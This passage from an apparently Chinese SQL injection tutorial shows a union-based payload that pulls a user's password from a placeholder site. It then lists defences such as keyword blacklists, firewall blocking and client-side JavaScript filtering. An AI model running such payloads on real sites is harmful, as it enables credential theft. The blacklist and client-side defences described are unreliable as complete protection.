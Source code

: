  附件2：8

 附件3：2016001

輸出用戶名2016001，在搜索密碼。

\(2\) http://xxxxx/show.asp?code=-1' union all

select 1,null,3,null,null,6,7,8,

\(select passwd from usr where usr\_name='2016001'\),10 --

輸出結果如下所示：

 附件1：7

 附件2：8

 附件3：123456

輸出用戶名2016001，密碼123456，此時即可登錄，通過Python可以獲取所有值。

防止SQL注入

上面通過數據庫原理進行了詳細的講解，這種網站基本很少存在了，幾乎爲0，更多的網頁都有相關的屏蔽的。比如：

1.在URL設置不允許非法字符，如單引號、等號、註釋--、減號，提示非法參數；

2.在URL設置不允許SQL常見的關鍵詞，如and、select、or、insert等；

3.傳遞的id=115參數必須爲數字才能正常跳轉，否則跳轉錯誤

4.服務器啓用SQL注入攔截功能，提示當前網頁的 URL / POST / COOKIES中包含了特定的 SQL字符而被防火牆攔截，因爲可能通過POST、Cookies進行攻擊。各方面都需要做到防禦。

5.可以使用Javascript在客戶端進行不安全字符屏蔽，也可以在jsp中調用該函數檢查是否包函非法字符，或使用正則表達式過濾傳入的參數，防止SQL從URL注入。

